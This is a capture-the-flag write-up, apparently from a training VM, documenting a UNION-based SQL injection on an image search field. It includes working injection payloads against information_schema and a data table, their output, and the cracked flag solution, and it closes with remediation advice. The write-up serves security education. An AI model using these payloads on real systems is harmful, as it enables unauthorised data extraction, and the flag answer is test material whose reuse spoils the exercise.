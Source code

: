 # SQL injection on the image search field in the image search page

## Vulnerability Details:

### Affected URL: `http://192.168.56.102/?page=searchimg&id=`

### Issue Description:
This security issue pertains to a vulnerability in the SQL injection within the website. SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.

### Potential Exploitation:
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT title, url FROM users WHERE images.id = ${input_value}
```
The query would print the title and the url of the image with the given image ID. Since we don't need the website to display data about any specific image, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, and perform an UNION-based SQL injection attempt, which combines the result sets of two or more `SELECT` statements:
```
SELECT title, url FROM list_images WHERE images.id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
```

The result reveals a `list_images` table, which should correspond to the available table, and two interesting columns: `title` and `comment`. Subsequently, we will send the following request to retrieve these two fields from all users in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT title, comment FROM list_images
```

OUTPUT:
```
ID: -1 UNION SELECT title, comment FROM list_images
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
So, we decoded the MD5 string which gives `albatroz` and then calculated the `SHA256` sum of it to obtain the flag.

### Immediate Actions Required:
* SQL Injection Prevention:
   - Perform input validation and sanitization to prevent SQL injection attacks.
   - Use parameterized queries or prepared statements to handle dynamic SQL queries securely.
   - Implement strict access controls and least privilege principles to restrict database access.